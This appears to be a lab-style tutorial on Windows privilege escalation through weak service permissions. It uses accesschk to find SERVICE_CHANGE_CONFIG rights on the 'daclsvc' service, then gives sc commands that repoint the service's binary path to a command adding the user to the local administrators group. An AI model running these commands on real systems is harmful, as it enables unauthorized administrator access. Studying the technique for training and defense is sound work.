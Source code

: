 # Escalation Path Service Permissions

## Binary - Path

### Binary Path in Windows Services

A **binary path** (`binpath`) in Windows services defines the **executable file** that runs when the service starts. This path is stored in the **Windows Registry** and tells the system what to execute when a service is launched.

### How is it Exploited for Privilege Escalation?

If a user has **SERVICE_CHANGE_CONFIG** permissions on a service, they can **modify the binary path** and point it to a **malicious command or executable**. When the service is restarted, Windows will execute the new binary **with system-level privileges**.

Detection

Windows VM

1. Open command prompt and type: **C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc**

2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

**Exploitation**

Windows VM

1. In command prompt type: **sc config daclsvc binpath= "net localgroup administrators user /add"  
**2. In command prompt type: **sc start daclsvc**  
2. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**



